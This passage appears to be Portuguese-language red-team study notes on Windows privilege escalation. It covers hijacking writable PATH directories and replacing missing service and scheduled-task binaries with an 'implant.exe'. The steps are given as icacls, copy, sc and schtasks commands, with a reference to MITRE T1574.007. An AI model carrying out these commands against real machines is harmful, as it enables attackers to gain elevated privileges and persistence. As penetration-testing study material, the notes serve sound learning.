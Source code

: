 
- Checando perm de write no env PATH
- ```icacls c:\rto\bin```

- Se houver um caminho controlável nesta lista colocado, você poderá fazer com que o sistema execute seus próprios binários em vez dos reais.
- ``` copy c:\implant\implant.exe c:\bin\notepad.exe ```

READ/REFS:
- [https://attack.mitre.org/techniques/T1574/007/](https://attack.mitre.org/techniques/T1574/007/)


## Explorando Services sem o binario no path

- Buscando por services sem binario
- ``` c:\autorunsc64.exe -a s | more ```

- Info do service
- ``` C:\> sc query <service-name> ``` - lista services
- ``` C:\> sc qc <service-name> ``` - info do service


- Substituindo o binario
- ``` copy c:\implant\implantsrv.exe c:\path-to-service-sem-bin ```

- restart no service:

- ``` sc stop <service-name> sc start <service-name> ```


## Explorando Task sem binario no path 

A ideia é a mesma do Service sem binario...

- Buscando por Tasks sem bin:
- ``` c:\autorunsc64.exe -a s | more ```


- Checando configs da Task:
- ``` schtasks /query /tn <task-name> /xml ```

Nas configs procure pelo ```<UserId>``` (CID) para verificar a qual user pertence a task. Olhe também as configs ```<LogonType>``` e ```<RunLevel>``` para mais info do user daquela task.
Por ultimo, verifique a config ```<Triggers>``` que diz como aquela task é iniciada e com isso voĉe saberá como inicia-la.


- Substituindo binario:
- ``` copy c:implant\implant.exe C:\path-to-service-sem-bin ```

- Checando username do UserId (CID)
- ````wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name ```


READ/REFS:
- https://amr-git-dot.github.io/offensive/Priv-esc/
- https://gitbook.brainyou.stream/basic-windows/tcm-win-privesc#insecure-folders-files


## DLL Hijacking (for priv-esc)
